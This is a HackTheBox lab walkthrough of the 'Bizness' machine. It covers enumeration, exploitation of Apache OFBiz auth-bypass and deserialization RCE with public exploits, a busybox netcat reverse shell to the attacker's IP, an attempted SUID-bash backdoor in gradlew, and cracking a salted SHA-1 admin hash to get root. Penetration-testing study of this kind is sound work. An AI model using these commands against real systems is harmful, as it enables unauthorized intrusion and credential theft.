

---
tags:
  - hack
  - linux
---

# HackTheBox: [Bizness](https://app.hackthebox.com/machines/Bizness)

> [!tip]- Summary with Spoilers
> This Linux machine is running an exploitable version of [Apache OFBiz](https://ofbiz.apache.org/) with a RCE vulnerability, but there were two RCE rabbit-holes along the way. An [Apache Derby](https://db.apache.org/derby/) database offers a SHA-1 hash, which is crackable only after some research to get it in the correct format for `hashcat`/`john`. PE was otherwise quite easy thanks to the cracked hash and password reuse.

## Services

### TCP

```console
$ sudo nmap -v -sCV -p- -T4 -oN tcpfull t
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 13:42 CST
NSE: Loaded 156 scripts for scanning.
...
Nmap scan report for t (10.10.11.252)
Host is up (0.097s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg:
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-12-14T20:03:40
| Not valid after:  2328-11-10T20:03:40
| MD5:   b182:2fdb:92b0:2036:6b98:8850:b66e:da27
|_SHA-1: 8138:8595:4343:f40f:937b:cc82:23af:9052:3f5d:eb50
34179/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

#### 80,443/tcp http/https

```console
$ whatweb http://t
http://t [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.252], RedirectLocation[https://bizness.htb/], Title[301 Moved Permanently], nginx[1.18.0]
ERROR Opening: https://bizness.htb/ - no address for bizness.htb

$ whatweb http://bizness.htb
http://bizness.htb [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.252], RedirectLocation[https://bizness.htb/], Title[301 Moved Permanently], nginx[1.18.0]
https://bizness.htb/ [200 OK] Bootstrap, Cookies[JSESSIONID], Country[RESERVED][ZZ], Email[info@bizness.htb], HTML5, HTTPServer[nginx/1.18.0], HttpOnly[JSESSIONID], IP[10.10.11.252], JQuery, Lightbox, Script, Title[BizNess Incorporated], nginx[1.18.0]

$ whatweb https://bizness.htb
https://bizness.htb [200 OK] Bootstrap, Cookies[JSESSIONID], Country[RESERVED][ZZ], Email[info@bizness.htb], HTML5, HTTPServer[nginx/1.18.0], HttpOnly[JSESSIONID], IP[10.10.11.252], JQuery, Lightbox, Script, Title[BizNess Incorporated], nginx[1.18.0]
```

Added `bizness.htb` to `/etc/hosts`.

```console
$ feroxbuster -k -u https://bizness.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php -d1 -C 503
...
──────────────────────────────────────────────────
302      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        2l      247w     7083c https://bizness.htb/lib/jquery/jquery-migrate.min.js
200      GET       10l       83w     4474c https://bizness.htb/lib/superfish/superfish.min.js
200      GET       15l      120w     9418c https://bizness.htb/lib/lightbox/js/lightbox.min.js
200      GET        1l       44w     2608c https://bizness.htb/lib/lightbox/css/lightbox.min.css
...
200      GET     1176l     7328w   623279c https://bizness.htb/img/intro-carousel/1.jpg
200      GET     1896l     9607w   743797c https://bizness.htb/img/intro-carousel/4.jpg
200      GET      522l     1736w    27200c https://bizness.htb/
404      GET        1l       68w      757c https://bizness.htb/select
200      GET      492l     1596w    34633c https://bizness.htb/control
...
```

Visiting `/control` returns this:


[Apache OFBiz](https://en.wikipedia.org/wiki/Apache_OFBiz) is an "enterprise resource planning" (ERP) system. Something to do with integrating business processes.

Via `searchsploit`, maybe this?:

```console
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE) | java/webapps/50178.sh
```

## RCE

There is a [pre-auth RCE in Apache Ofboz 18.12.09](https://nvd.nist.gov/vuln/detail/CVE-2023-49070). A [POC is available](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC); the RCE exploit that came back from `searchsploit` is _not_ correct for this machine.

```console
$ python3 ./x.py https://bizness.htb/control shell 10.10.14.12:443
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0xb121a86) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0xb121a86
        at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
        at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
Please make sure from data
^ rc=1

$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 21.0.2 2024-01-16
OpenJDK Runtime Environment (build 21.0.2+13-Debian-2)
OpenJDK 64-Bit Server VM (build 21.0.2+13-Debian-2, mixed mode, sharing)
```

Looks like the wrong JDK for `ysoserial`.

```console
$ sudo apt install openjdk-11-jdk
[sudo] password for kali:
Reading package lists... Done
...

$ sudo update-alternatives --config java
There are 3 choices for the alternative java (providing /usr/bin/java).
  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-21-openjdk-amd64/bin/java   2111      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode
  3            /usr/lib/jvm/java-21-openjdk-amd64/bin/java   2111      manual mode
Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-amd64/bin/java to provide /usr/bin/java (java) in manual mode

$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.20-ea 2023-07-18
OpenJDK Runtime Environment (build 11.0.20-ea+7-post-Debian-1)
OpenJDK 64-Bit Server VM (build 11.0.20-ea+7-post-Debian-1, mixed mode, sharing)

$ python3 ./x.py https://bizness.htb/control shell 10.10.14.12:443
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Not Sure Worked or not
```

Unfortunately, no reverse shell popped.

```console
$ python3 ./x.py https://bizness.htb/control shell 10.10.14.12:443
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0xb121a86) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0xb121a86
        at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
        at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
Please make sure from data
^ rc=1
```

This exploit worked, partially, the first time I did this box, but now…nothing. I say "partially" because I never could get a reverse shell, but I was able to spawn a bind shell. After poking at this for a while I have a feeling HTB considered this an unintended path and closed it.

So, I'll try fuzzing that endpoint. Everything returns 200 status codes so I need to filter by regex.

```console
$ ffuf -ic -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u https://bizness.htb/control/FUZZ -fr RequestHandlerException
...
________________________________________________
help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 596ms]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 635ms]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 752ms]
login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186, Duration: 1396ms]
logout                  [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 242ms]
views                   [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 1491ms]
forgotPassword          [Status: 200, Size: 11060, Words: 1442, Lines: 175, Duration: 2298ms]
...
```

Visiting `/login` gives this:


I try a few guesses with no luck.

I search the web for "ofbiz exploit" and find one titled [Apache OFBiz Authentication Bypass Vulnerability](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass). This was _not_ in the `searchsploit` results from earlier.

It takes me a couple tries to figure out the exact URL it expects:

```console
$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
Cloning into 'Apache-OFBiz-Authentication-Bypass'...
...

$ cd Apache-OFBiz-Authentication-Bypass/

$ python3 exploit.py --url https://bizness.htb/control
[+] Scanning started...
[-] Apache OFBiz instance seems NOT to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/control/ogin
[+] Scanning started...
[-] Apache OFBiz instance seems NOT to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/control/login
[+] Scanning started...
[-] Apache OFBiz instance seems NOT to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.

$ python3 exploit.py --url https://bizness.htb/ --cmd 'busybox nc 10.10.14.12 443 -e bash'
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

And I finally get a shell:

```console
listening on [any] 443 ...                                                                                                           [33/33]
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.252] 49116
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
...

ofbiz@bizness:/opt/ofbiz$ cat $HOME/user.txt
a28084...
```

## PE

First I'll setup `ligolo` so I can access the target's internal ports from my machine.

```console
$ sudo ip tuntap add user kali mode tun ligolo
[sudo] password for kali:
$ sudo ip link set ligolo up
$ sudo ip route add 240.0.0.1/32 dev ligolo
```

```console
$ ligolo-proxy -selfcert -laddr 10.10.14.12:31337
WARN[0000] Using automatically generated self-signed certificates (Not recommended)
INFO[0000] Listening on 10.10.14.12:31337
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/
  Made in France ♥            by @Nicocha30!
ligolo-ng »
```

On the target:

```console
ofbiz@bizness:~$ wget 10.10.14.12/ligolo-agent
--2024-05-22 18:05:30--  http://10.10.14.12/ligolo-agent
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4681728 (4.5M) [application/octet-stream]
Saving to: ‘ligolo-agent’
ligolo-agent        100%[===================>]   4.46M   769KB/s    in 6.5s
2024-05-22 18:05:37 (699 KB/s) - ‘ligolo-agent’ saved [4681728/4681728]
ofbiz@bizness:~$ chmod +x ligolo-agent
ofbiz@bizness:~$ ./ligolo-agent -ignore-cert -connect 10.10.14.12:31337
WARN[0000] warning, certificate validation disabled
INFO[0000] Connection established                        addr="10.10.14.12:31337"
```

On Kali:

```text
ligolo-ng » INFO[0023] Agent joined.                                 name=ofbiz@bizness remote="10.10.11.252:55306"
ligolo-ng » session
? Specify a session : 1 - #1 - ofbiz@bizness - 10.10.11.252:55306
[Agent : ofbiz@bizness] » tunnel_start
[Agent : ofbiz@bizness] » INFO[0062] Starting tunnel to ofbiz@bizness
```

Now I can access all the internal ports via 240.0.0.1.

Meanwhile I run LinPEAS and find this:

```console
╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
...


╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
...
-rwxr-sr-x 1 root tty 23K Jan 20  2022 /usr/bin/write.ul (Unknown SGID binary)
```

I tried adding this to the script at `/opt/ofbiz/gradlew`:

```bash
cp /bin/bash /tmp/x; chmod 6777 /tmp/x
```

And then I killed `gradlew`, thinking that `systemd` would restart it using my malicious script. Unfortunately that didn't happen, and I simply lost the reverse shell and then the ingress points were dead. (So, I reset the machine.)

```console
ofbiz@bizness:/etc/systemd/system$ cat ofbiz.service
# OFBiz service
[Unit]
Description=OFBiz Service
[Service]
Type=simple
# environment variables
Environment="JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64"
Environment="PATH=/usr/lib/jvm/java-11-openjdk-amd64/bin:/bin:/sbin:/usr/bin:/usr/sbin"
User=ofbiz
WorkingDirectory=/opt/ofbiz
# start and stop executables
# note that systemd requires specifying full/absolute path to executables
ExecStart=/opt/ofbiz/gradlew ofbiz
ExecStop=/opt/ofbiz/gradlew "ofbiz --shutdown"
Restart=Always
RestartSec=10s
RemainAfterExit=no
[Install]
WantedBy=multi-user.target
```

After resetting the machine I try to kill the `gradle` process again, with the untouched startup script, and the same thing happens. Weird, considering the `Restart=Always` in the config above.

I had put my pubkey on the target so I could login via SSH, but then my shell died again so I think HTB noticed the service was dead and reset the box. Ugh.

Onto another PE vector. LinPEAS highlighted a few "Modified interesting files in the last 5mins", many of which were in the `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` directory. I investigated those and found what looks like database files, probably from [Apache Derby](https://db.apache.org/derby/).

Instead of taking the time to properly access the database contents from the raw files, I resorted to grubbing around with `strings`:

```console
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ cat *.dat | strings > /tmp/strings
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ vi -R /tmp/strings
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ grep currentPassword /tmp/strings
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

I do a little research and figure this is Apache Ofbiz's way of representing a SHA hash. The trick is converting from the base64 format into hexadecimal.

```python
#!/usr/bin/python3
import base64
# Base64 encoded hash from OFBiz
encoded_hash = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
# Ensure the base64 string is correctly padded
padding = '=' * (-len(encoded_hash) % 4)
encoded_hash_padded = encoded_hash + padding
# Decode the base64 to get the binary hash
binary_hash = base64.b64decode(encoded_hash_padded.replace("-", "+").replace("_", "/"))
# Convert the binary hash to a hex string
hex_hash = binary_hash.hex()
# Print the hash in a format suitable for Hashcat
print(hex_hash)
```

```console
$ python3 ./recode_hash.py
b8fd3f41a541a435857a8f3e751cc3a91c174362
```

This is also possible (and easier) using [CyberChef](https://gchq.github.io/CyberChef/).



So far so good, however, that hash is salted. The original hash we found was `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`; the "d" after the second `$` is the salt value. This is a general convention for several hash formats, i.e. `$<scheme>$<salt>$<hash>`.

From the [hashcat documention for hash types](https://hashcat.net/wiki/doku.php?id=example_hashes), here's a useful example:

```console
120 | sha1($salt.$pass) | cac35ec206d868b7d7cb0b55f31d9425b075082b:5363620024
```

So I add ":d" to the end of the hash, like this:

```console
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```

And now it's easily crackable:

```console
$ hashcat -a0 hash ./rockyou.txt -r rules/best64.rule -m 120
...
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness  
```

Hoping for password reuse, I try this for the `ofbiz` account hoping to find Sudo privileges to abuse:

```console
ofbiz@bizness:/tmp$ sudo -l
[sudo] password for ofbiz:
Sorry, try again.
```

But I'm in luck, since it works for the `root` user:

```text
ofbiz@bizness:/tmp$ su - root
Password:
root@bizness:~# cat /root/root.txt
eee349...
```

## Credits

I was able to understand the hash-massaging required for this box thanks to [Software Sinner's writeup](https://software-sinner.medium.com/hack-the-box-bizness-60728bcde635)
